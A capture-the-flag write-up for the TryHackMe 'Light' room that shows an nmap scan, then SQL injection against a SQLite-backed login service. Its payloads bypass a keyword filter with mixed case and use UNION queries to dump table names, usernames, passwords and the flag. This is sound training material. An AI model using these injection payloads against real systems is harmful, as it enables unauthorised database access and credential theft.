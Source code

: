 ```yaml
---
title: "Light"
date: 2025-01-18T09:36:24+01:00
draft: false
hidden: false
tags:
    - ctf
    - writeup
    - tryhackme
summary: ""
---
```


|Revised Date | Author | Comment |
| ----------- | ------ | ------- |
| 19.01.2025  | Roger Johnsen | Article added |

## Introduction

>_I am working on a database application called Light! Would you like to try it out?
If so, the application is running on port 1337. You can connect to it using nc 10.10.199.201 1337
You can use the username smokey in order to get started._
>
>_Note: Please allow the service 2 - 3 minutes to fully start before connecting to it._

Availability: https://tryhackme.com/r/room/lightroom

--- 

## Portscanning

```bash
nmap -sS -Pn -p- 10.10.199.201 -oN scan.txt

# Nmap 7.94SVN scan initiated Sat Jan 18 12:34:04 2025 as: /usr/lib/nmap/nmap --privileged -sS -Pn -p- -oN scan.txt 10.10.199.201
Nmap scan report for 10.10.199.201
Host is up (0.059s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
1337/tcp open  waste
```

## Enumerating service

```bash
nc 10.10.199.201 1337

Welcome to the Light database!
Please enter your username: smokey
Password: vYQ5ngPpw8AdUmL
Please enter your username: '
Error: unrecognized token: "''' LIMIT 30"
Please enter your username: --
For strange reasons I can't explain, any input containing /*, -- or, %0b is not allowed :)
```
Initial prodding of the login prompt reveals the following:  

- If a username exists, the system returns and displays the associated password.  
- The prompt suggests a database is involved, making SQL injection the most likely vulnerability.  
- Inserting a single quotation mark (`'`) results in an SQL error.  
- Input filtering appears to be in place.  

```bash
nc 10.10.199.201 1337
Welcome to the Light database!

Please enter your username: 
Password: tF8tj2o94WE4LKC
Please enter your username: ' or username like 'a%
Password: tF8tj2o94WE4LKC
Please enter your username: ' or username like 'x%
Username not found.
Please enter your username:
```

Further prodding using the following payloads:

| Payload | Result | 
| ------- | ------ |
| ```' or '1'='1``` | Returns a different password than for "smokey" |
| ```' or username like 'a%``` | Returns the same password as above mentioned "OR" statement |
| ```' or username like 'x%``` | No user founds. Verification that I have guessed the correct column and that there are no users starting with "x" | 

#### The hints

The room's description states, *"I am working on a database application called Light."* The room itself is named *"Light,"* and the URL for the room is *"/lightroom."* Seeing these in combination, it seems likely that we are dealing with SQLite - phonetically, it makes sense. Therefore, I will base my investigation on this assumption moving forward.  

## Enumerating database

### Tables

For standard querying, listing tables in SQLite can be accomplished with the following query, which we will exploit shortly:

```sql
SELECT name FROM sqlite_master WHERE type = 'table' ORDER BY name;
```

When applied to the application's input, we get something like this:

```sql
x' Union SELECT name FROM sqlite_master WHERE type='table
```

Putting this into practice:

```bash
nc 10.10.147.110 1337

Welcome to the Light database!
Please enter your username: x' UNION SELECT name FROM sqlite_master WHERE type='table
Ahh there is a word in there I don't like :(
Please enter your username: 
```

While debugging, it seems the backend does not accept the "SELECT" keyword, even in lowercase. However, this works:  

```bash
nc 10.10.147.110 1337

Welcome to the Light database!
Please enter your username: x' Union Select name FROM sqlite_master WHERE type='table
Password: admintable
Please enter your username: 
```

### Users

We now know the table name, "admintable." Let's see if we can retrieve its contents! We'll use the same logic as above:

```sql
x' Union Select username FROM admintable WHERE username like '%
```

Putting this into practice:

```bash
nc 10.10.147.110 1337

Welcome to the Light database!
Please enter your username: x' Union Select username FROM admintable WHERE username like '%
Password: T*************
Please enter your username: T*************
Username not found.
Please enter your username:
```

Although we can extract the username, we cannot retrieve the password by simply entering the username at the prompt. However, we must use SQL injection once again:

```sql
```sql
x' Union Select password FROM admintable WHERE username like 'T%
```

Putting this into practice:

```bash
nc 10.10.147.110 1337

Welcome to the Light database!
Please enter your username: x' Union Select password FROM admintable WHERE username like 'T%
Password: m*******************
Please enter your username: 
```

At this point, I thought I could simply SSH into the machine and retrieve the flag. Unfortunately, the credentials didn’t work. So, I decided to revisit probing the database.

### Flag

It appears that there is only one table in the database. Perhaps there is more content I'm not aware of? I’m trying this route without looking at the username I recently found:

```sql
x' Union Select password FROM admintable WHERE username not like 'T%
```

Putting this into practice:

```bash
nc 10.10.147.110 1337         
Welcome to the Light database!
Please enter your username: x' Union Select password FROM admintable WHERE username not like 'T%
Password: THM{******************************}
Please enter your username:
```

And there’s the flag.